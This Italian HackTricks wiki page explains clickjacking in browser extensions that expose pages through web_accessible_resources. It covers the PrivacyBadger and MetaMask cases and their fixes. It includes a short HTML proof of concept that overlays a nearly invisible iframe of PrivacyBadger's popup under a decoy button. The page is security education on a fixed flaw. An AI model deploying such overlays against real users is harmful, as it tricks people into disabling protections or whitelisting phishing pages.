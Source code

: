 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

Questa pagina sfrutterà una vulnerabilità di ClickJacking in un'estensione del browser.\
Se non sai cos'è il ClickJacking, controlla:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Le estensioni contengono il file **`manifest.json`** e quel file JSON ha un campo `web_accessible_resources`. Ecco cosa dicono [i documenti di Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) al riguardo:

> Queste risorse sarebbero quindi disponibili in una pagina web tramite l'URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, che può essere generato con il **`extension.getURL method`**. Le risorse autorizzate vengono servite con intestazioni CORS appropriate, quindi sono disponibili tramite meccanismi come XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Le **`web_accessible_resources`** in un'estensione del browser non sono accessibili solo tramite il web; operano anche con i privilegi intrinseci dell'estensione. Questo significa che hanno la capacità di:

* Cambiare lo stato dell'estensione
* Caricare risorse aggiuntive
* Interagire con il browser in una certa misura

Tuttavia, questa funzionalità presenta un rischio per la sicurezza. Se una risorsa all'interno delle **`web_accessible_resources`** ha una funzionalità significativa, un attaccante potrebbe potenzialmente incorporare questa risorsa in una pagina web esterna. Gli utenti ignari che visitano questa pagina potrebbero attivare involontariamente questa risorsa incorporata. Tale attivazione potrebbe portare a conseguenze indesiderate, a seconda dei permessi e delle capacità delle risorse dell'estensione.

## Esempio di PrivacyBadger

Nell'estensione PrivacyBadger, è stata identificata una vulnerabilità relativa alla directory `skin/` dichiarata come `web_accessible_resources` nel seguente modo (Controlla il [post originale del blog](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Questa configurazione ha portato a un potenziale problema di sicurezza. In particolare, il file `skin/popup.html`, che viene visualizzato al momento dell'interazione con l'icona di PrivacyBadger nel browser, potrebbe essere incorporato all'interno di un `iframe`. Questo embedding potrebbe essere sfruttato per ingannare gli utenti a cliccare involontariamente su "Disabilita PrivacyBadger per questo sito web". Tale azione comprometterebbe la privacy dell'utente disabilitando la protezione di PrivacyBadger e potenzialmente soggiacendo l'utente a un tracciamento aumentato. Una dimostrazione visiva di questo exploit può essere vista in un esempio video di ClickJacking fornito su [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Per affrontare questa vulnerabilità, è stata implementata una soluzione semplice: la rimozione di `/skin/*` dall'elenco delle `web_accessible_resources`. Questa modifica ha effettivamente mitigato il rischio assicurando che il contenuto della directory `skin/` non potesse essere accessibile o manipolato tramite risorse web-accessibili.

La soluzione è stata semplice: **rimuovere `/skin/*` dalle `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Esempio Metamask

Un [**post del blog su un ClickJacking in metamask può essere trovato qui**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). In questo caso, Metamask ha risolto la vulnerabilità controllando che il protocollo utilizzato per accedervi fosse **`https:`** o **`http:`** (non **`chrome:`** per esempio):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Un altro ClickJacking risolto** nell'estensione Metamask era che gli utenti potevano **Cliccare per aggiungere alla whitelist** quando una pagina era sospetta di phishing a causa di `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Poiché quella pagina era vulnerabile al Clickjacking, un attaccante poteva abusarne mostrando qualcosa di normale per far cliccare la vittima per aggiungerla alla whitelist senza accorgersene, e poi tornare alla pagina di phishing che sarà aggiunta alla whitelist.

## Esempio Steam Inventory Helper

Controlla la seguente pagina per vedere come un **XSS** in un'estensione del browser è stato concatenato con una vulnerabilità di **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Riferimenti

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
